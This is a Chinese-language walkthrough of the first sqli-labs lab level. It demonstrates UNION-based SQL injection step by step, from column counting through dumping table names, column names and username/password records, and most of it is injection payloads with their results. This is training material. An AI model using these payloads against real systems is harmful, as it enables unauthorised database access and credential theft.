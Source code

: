 

[toc]

第一关

1. 找到注入点

   http://192.168.157.137/sqli-labs/Less-1/index.php

2. 猜测后端查询语句

   ```
   select * from xxx_tbl where id='1' limit 0,1;
   ```

3. 判断字段数

   ```
   select * from xxx_tbl where id='1' order by 3%23' limit 0,1;
   ```

4. 判断显示位

   ```
   select * from xxx_tbl where id='-1' union select 1,2,3%23' limit 0,1;
   ```

5. 查库名

   ```
   select * from xxx_tbl where id='-1' union select 1,2,database()%23' limit 0,1;
   
   security
   ```

6. 查表名

   ```
   select * from xxx_tbl where id='-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'%23' limit 0,1;
   
   emails,referers,uagents,users
   ```

   

7. 查列名

   ```
   select * from xxx_tbl where id='-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='security'%23' and table_name='users'limit 0,1;
   username,password
   ```

   

8. 查记录

   ```
   select * from xxx_tbl where id='-1' union select 1,2,group_concat(username,password) from users limit 0,1;
   ```

   
